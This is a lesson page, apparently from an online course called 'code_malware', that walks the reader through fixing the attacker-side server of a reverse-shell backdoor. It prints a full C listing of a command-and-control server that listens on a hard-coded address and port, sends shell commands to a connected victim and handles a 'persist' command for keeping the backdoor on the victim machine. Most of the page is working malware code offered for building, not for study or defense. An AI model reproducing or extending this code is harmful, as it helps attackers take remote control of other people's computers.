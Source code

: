 ```yaml
---
title: Small fixes
section: "Finishing our malware"
course: code_malware
layout: lesson
---
```


If you managed to compile and test the malware as mentioned in the previous
lesson, you probably noted that when the `persist` command was executed, there
was no command prompt in the server shell, which basically means, once you
executed the `persist` command, you couldn't execute any other. We will fix that
in this lesson.

To fix that error, go to the Server.c file and add the following block in the
"_if/else_" statement section:

```c
else if(strncmp("persist", buffer, 7) == 0) {
  recv(client_socket, response, sizeof(response), 0);
  printf("%s", response);
}
```

This is how the entire "`Server.c`" file looks:

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>

int main() {
  int sock, client_socket;
  char buffer[1024];
  char response[18384];
  struct sockaddr_in server_address, client_address;
  int i = 0;
  int optval = 1;
  socklen_t client_length;

  sock = socket(AF_INET, SOCK_STREAM, 0);

  if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval)) < 0) {
    printf("Error Setting TCP Socket Options!\n");
    return 1;
  }

  server_address.sin_family = AF_INET;
  server_address.sin_addr.s_addr = inet_addr("192.168.1.3");
  server_address.sin_port = htons(50005);

  bind(sock, (struct sockaddr *) &server_address, sizeof(server_address));
  listen(sock, 5);
  client_length = sizeof(client_address);
  client_socket = accept(sock, (struct sockaddr *) &client_address, &client_length);

  while(1) {
jump:
    bzero(&buffer, sizeof(buffer));
    bzero(&response, sizeof(response));
    printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
    fgets(buffer, sizeof(buffer), stdin);
    strtok(buffer, "\n");
    write(client_socket, buffer, sizeof(buffer));

    if(strncmp("q", buffer, 1) == 0) {
      break;
    } else if(strncmp("persist", buffer, 7) == 0) {
      recv(client_socket, response, sizeof(response), 0);
      printf("%s", response);
    } else {
      recv(client_socket, response, sizeof(response), MSG_WAITALL);
      printf("%s", response);
    }
  }
}
```
